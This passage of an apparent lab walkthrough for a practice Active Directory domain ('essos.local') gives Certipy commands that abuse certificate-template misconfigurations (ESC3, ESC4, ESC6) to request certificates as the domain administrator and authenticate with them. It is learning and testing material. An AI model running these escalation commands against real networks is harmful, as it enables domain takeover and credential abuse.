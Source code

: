 
- We also can do the same with the ESC3-CRA and ESC3 templates in the lab :
```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC3-CRA -ca ESSOS-CA
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC3 -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
certipy-ad auth -pfx administrator.pfx -username administrator -domain essos.local -dc-ip 192.168.56.12
```


## ADCS - ESC4

>[!NOTE] 
> First command did not work, need to check why


- Take the ESC4 template and change it to be vulnerable to ESC1 technique by using the genericWrite privilege we got. (we didn’t set the target here as we target the ldap)
```
certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -save-old -debug
```


- Exploit ESC1 on the modified ESC4 template
```
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC4 -ca ESSOS-CA -upn administrator@essos.local
```

- authentication with the pfx

```
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

- Rollback the template configuration
    
    ```
    certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json
    ```
    

## ADCS - ESC6

- As said on certipy page : _“ESC6 is when the CA specifies the EDITF_ATTRIBUTESUBJECTALTNAME2 flag. This flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template’s configuration.”_
    
- Because ESSOS-CA is vulnerable to ESC6 we can do the ESC1 attack but with the user template instead of the ESC1 template even if the user template got Enrollee Supplies Subject set to false.
    
```
certipy-ad req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template User -ca ESSOS-CA -upn administrator@essos.local
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```